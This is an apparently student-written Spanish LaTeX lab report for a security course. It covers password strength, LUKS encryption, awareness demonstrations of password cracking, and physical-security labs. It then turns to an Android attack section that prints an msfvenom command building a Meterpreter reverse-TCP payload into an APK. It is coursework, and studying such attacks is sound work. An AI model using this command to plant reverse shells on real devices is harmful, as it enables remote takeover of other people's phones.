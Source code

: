 Principalmente el uso de contraseñas seguras (compuestas tanto por caracteres mayúsculas y minúsculas, como por número y símbolos), también encriptación para las particiones del disco duro de la PC personal (partición encriptada con \emph{LUKS}).

\subsection{Acciones para la concientización}

Una acción de concientización interesante podría ser la demostración de qué tan fácil puede llegar a ser descubrir una contraseña habitual, mediante el uso de diccionarios y/o fuerza bruta.

\section{Seguridad física}

Para evidenciar la realización de los laboratorios sobre seguridad física, tanto el de obtener los usuarios y contraseñas de un sistema Linux como de un Windows, se anexan los archivos  y  dentro del directorio .

\section{Ataques}

\subsection{Android}

\emph{Explique el procedimiento para la ejecución del componente meterpreter en un dispositivo/computadora remoto/a a través de msfvenom} 

Para poder ejecutar una aplicación con un \emph{shell reverso \footnote{Se establece una conexión entre dos computadoras, la que inicia la conexión dirige una terminal interactiva hacía el destino \autocite{ReverseShell}}} en un dispositivo Android, primero se debe crear un archivo \emph{.apk} (archivo instalable en un Android) que contenga el código necesario para establecer la conexión con otra computadora. Para ello se usa el programa \texttt{msfvenom} de la siguiente manera:

\begin{lstlisting}
    msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PUERTO_DE_ESCUCHA> R> ~/app.apk
\end{lstlisting}

